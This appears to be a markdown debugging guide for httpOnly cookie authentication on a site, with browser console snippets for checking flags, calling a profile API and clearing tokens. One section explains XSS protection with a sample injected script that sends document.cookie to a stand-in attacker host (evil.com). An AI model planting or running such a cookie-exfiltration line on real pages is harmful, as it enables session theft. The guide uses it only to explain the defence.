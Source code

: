 ### Step 4: Verify Auth Works
```javascript
// Paste in browser console:
console.log('Auth valid flag:', document.cookie.includes('auth_valid=1'))
// Should show: Auth valid flag: true

// httpOnly cookies won't show (expected):
console.log('Can see id_token:', document.cookie.includes('id_token'))
// Should show: Can see id_token: false (because it's httpOnly)
```

## Why HttpOnly Cookies Are Good

HttpOnly cookies **prevent XSS attacks**:
```javascript
// If an attacker injects malicious code:
<script>
  // This WON'T work (httpOnly protection):
  fetch('evil.com/steal?token=' + document.cookie)
  
  // But the browser still sends httpOnly cookies 
  // to legitimate requests automatically
</script>
```

## Debug Commands

### Check if auth_valid flag is set:
```javascript
document.cookie.split(';').find(c => c.trim().startsWith('auth_valid'))
// Should return: "auth_valid=1"
```

### Check if authentication is working:
```javascript
// Test API call with httpOnly cookies
fetch('https://brmh.in/auth/profile', {
  credentials: 'include' // Sends httpOnly cookies
})
.then(r => r.json())
.then(data => console.log('Profile:', data))
.catch(err => console.error('Error:', err))
```

### Force re-authentication:
```javascript
// Clear all cookies
['id_token', 'access_token', 'refresh_token', 'auth_valid'].forEach(key => {
  document.cookie = `${key}=; domain=.brmh.in; path=/; expires=Thu, 01 Jan 1970 00:00:00 GMT`
})

// Reload page
window.location.reload()
```
